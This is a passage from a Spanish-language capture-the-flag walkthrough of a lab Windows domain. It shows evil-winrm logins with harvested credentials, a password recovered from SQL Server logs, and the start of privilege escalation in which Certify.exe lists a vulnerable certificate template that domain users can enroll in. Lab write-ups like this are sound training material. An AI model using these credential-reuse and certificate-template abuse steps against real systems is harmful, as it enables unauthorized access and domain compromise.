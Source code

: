 - Usamos este usuario y contraseña para acceder por `Winrm` a la máquina víctima:

```bash
$evil-winrm -i 10.129.165.120 -u sql_svc -p REGGIE1234ronnie
```

- Haciendo una búsqueda dentro del sistema, vemos que en el directorio "C:" existe una carpeta `"SQLServer"` y dentro de esta hay una llamada `"Logs"`, accedemos y leemos lo que hay en el archivo contenido.

- Si buscamos bien, encontraremos como intento de acceso fallido un usuario y contraseña, la cual usaremos con `Winrm` para acceder al sistema como el usuario "Ryan.Cooper":

```bash
$evil-winrm -i 10.129.165.120 -u Ryan.Cooper -p NuclearMosquito3
```

- Encontramos la primera flag en el directorio `C:\Users\Ryan.Cooper\Desktop`


#  ESCALANDO PRIVILEGIOS:



# Explotación de certificado vulnerable (template):


- Transferimos el binario de [Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Certify.exe) a la máquina víctima y hacemos un escaneo de `templates` vulnerables de certificados:

```
C:./Certify.exe find /vulnerable
```

```js
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
```